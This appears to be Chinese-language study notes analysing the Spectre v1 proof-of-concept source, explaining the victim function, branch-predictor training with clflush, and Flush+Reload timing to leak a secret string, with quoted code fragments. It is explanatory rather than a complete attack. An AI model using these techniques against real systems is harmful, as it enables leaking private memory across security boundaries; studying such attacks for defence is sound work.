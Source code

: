 # 源码分析

## victim function

首先注意到`array1_size`的属性是`unsigned int`(32 bit)，`array1`和`array2`的属性是`uint8_t`，执行分支预测的代码如下：

```cpp
if (x < array1_size)
{
    temp &= array2[array1[x] * 512];
}
```

在取array2中的元素时，index之间的间隔至少512，说明address之间的间隔至少512 \* 8 = 4096 bytes。

## training

首先回忆若干个数据在cache中的存储方式：

1. array2不在cache（Flush+Reload）；
2. array1_size不在cache（方便在判断出来之前进行推测性执行）；
3. array1[x]在cache（方便尽早执行推测性执行的指令，以免在判断结果出来之后被flush掉）。

所以代码首先要从cache中去除/上载相应的数据：

```cpp
for (i = 0; i < 256; i++)
{
    _mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */
}

for (j = 29; j >= 0; j--)
{
#ifndef NOCLFLUSH
    _mm_clflush(&array1_size);
    ...
}
```

循环架构如下：
```cpp
for (tries = 999; tries > 0; tries--)
{
    training_x = tries % array1_size; // array1_size = 16
    for (j = 29; j >= 0; j--)
    {
        /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
        // ...
        victim_function(x); // malicious_x from param
    }
}
```

执行时，每训练5次，恶意执行1次。可以看到，training_x的取值范围是[0, 15]，而malicious_x的值时秘密字符串的地址。显然在训练时，分支都会被预测为`x < array1_size`，之后使用malicious_x时，分支仍然按照训练时的预测结果执行。

随后就是测量，已确定哪一个malicious_x值被取用：

```cpp
time1 = __rdtscp(&junk);         /* READ TIMER */
junk = *addr;                    /* MEMORY ACCESS TO TIME */
time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
```
返回值是当前处理器的ticks。随后如果时间小于一定阈值，就认为击中cache，对应的malicious_x值会增加分数：

```cpp
if ((int)time2 <= cache_hit_threshold && mix_i != array1[tries % array1_size])
{
    results[mix_i]++; /* cache hit - add + 1 to score for this value */
}
```

> 这里访问的顺序有讲究：`mix_i = ((i * 167) + 13) & 255;`，见代码：[code example](https://godbolt.org/z/6axfK6j9c)，为了防止所谓的“stride prediction”。


